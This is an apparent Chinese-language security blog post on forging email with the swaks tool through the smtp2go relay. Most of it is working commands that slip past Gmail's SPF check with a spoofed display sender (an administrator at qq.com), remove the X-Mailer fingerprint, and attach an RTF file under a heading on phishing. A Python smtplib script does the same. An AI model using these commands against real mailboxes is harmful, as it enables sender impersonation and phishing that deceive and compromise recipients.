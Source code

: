 ```yaml
---
categories: 高效
date: "2019-05-09T00:00:00Z"
description: 绕过一些邮件服务器的简单检测
title: Swaks伪造邮件
url: /archivers/2019-05-09/1
---
```


## 0x00 swaks

swaks - Swiss Army Knife SMTP, the all-purpose smtp transaction tester.

swaks堪称SMTP协议的瑞士军刀，使用它我们可以灵活的操作SMTP协议报文，这篇文章主要是记录一下我是如何伪造一封邮件绕过gmail的检测。

通常最简单的发送命令：

```bash
swaks --to user@example.com --server test-server.example.net
```

但是邮件头中会带上`X-Mailer`：

![2019-05-09-14-24-53](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/002a7f0de092a69a661400aaf83e2d4a.png)


同时，SPF检测会FAIL。

## 0x01 smtp2go

这个是从evi1cg师傅那里看到的，smtp2go主要是相当于邮件托管，可以分发子账户进行发送。

地址：https://support.smtp2go.com/hc/en-gb

（邮箱注册）普通账户可以免费发1000封邮件。


分配好账户后，可以通过swaks进行登录发送邮件：

![2019-05-09-14-28-50](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b8b6ba65c1870a17710b0cbfe77359b3.png)

## 0x02 swaks发送邮件

```bash
swaks --to rvn0xsy@gmail.com --from admin@qq.com --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASS>
```

但是上面这个邮件无法绕过SPF。

## 0x03 SPF验证原理

如果mail.smtp2go.com是我的邮件服务器，那么gmail服务器收到的源IP也肯定是mail.smtp2go.com的IP。

gmail会校验邮件发送者的IP是否存在于smtp.from的域名spf配置列表里。

而上面这条命令：

```bash
swaks --to rvn0xsy@gmail.com --from admin@qq.com --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASS>
```

smtp.from就是admin@qq.com，和mail.smtp2go.com的IP肯定不同，所以SPF校验失败，而校验失败的邮件，会有很高的几率被扔到垃圾邮件中。

默认情况下，如果未设置Mail.From也就是邮件头的From，则会使用smtp.from作为Mail.From。

![2019-05-09-14-38-39](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/323e7ae3e0e177b37b051c421b31c1ad.png)


## 0x04 绕过SPF

由于邮件显示的是Header中的From不是smtp.from，因此可以将smtp.from设置为正常的邮件服务器地址，伪造一个Mail.From即可。

```bash
swaks --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS>
```

Gmail接收到这封邮件后，会校验`--from xx@smtp2go.com`中的smtp2go.com是否等于mail.smtp2go.com的IP，由于是相等的，所以完成了SPF的校验。

而DKIM是校验邮件完整性的，smtp2go与Gmail直接使用的是TLS，不会发生什么问题。


![2019-05-09-14-42-55](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/a5868ef92b72691b8d0e36328cf174f6.png)

## 0x05 Header

swaks支持自定义某些Header，参数如下：

```bash
swaks --header-<Name> <Value>
```

如果我想去除Mailer特征，就可以这么做：

```bash
swaks --header-X-Mailer gmail.com --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS> 
```

## 0x06 附件、钓鱼

```bash
swaks --header-X-Mailer gmail.com --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS> --attach /tmp/sss.rtf
```

定制发送：

```bash
swaks --data /tmp/mail.data --header-X-Mailer gmail.com --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS> --attach /tmp/sss.rtf
```

/tmp/mail.data中是原始的邮件报文。

## 0x07 Python也可以做

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

import smtplib
from email.mime.text import MIMEText
from email.header import Header

mail_host="mail.smtp2go.com"
mail_user=""
mail_pass=""


sender = 'test@smtp2go.com'
receivers = ['rvn0xsy@gmail.com']

message = MIMEText('Hello World', 'plain', 'utf-8')
message['From'] = Header("from@qq.com", 'utf-8')
message['To'] =  Header(receivers[0], 'utf-8')

subject = 'SMTP 邮件测试'
message['Subject'] = Header(subject, 'utf-8')


try:
    smtpObj = smtplib.SMTP()
    smtpObj.connect(mail_host, 25)
    smtpObj.login(mail_user,mail_pass)
    smtpObj.sendmail(sender, receivers, message.as_string())
    print "Success"
except smtplib.SMTPException:
    print "Error"
```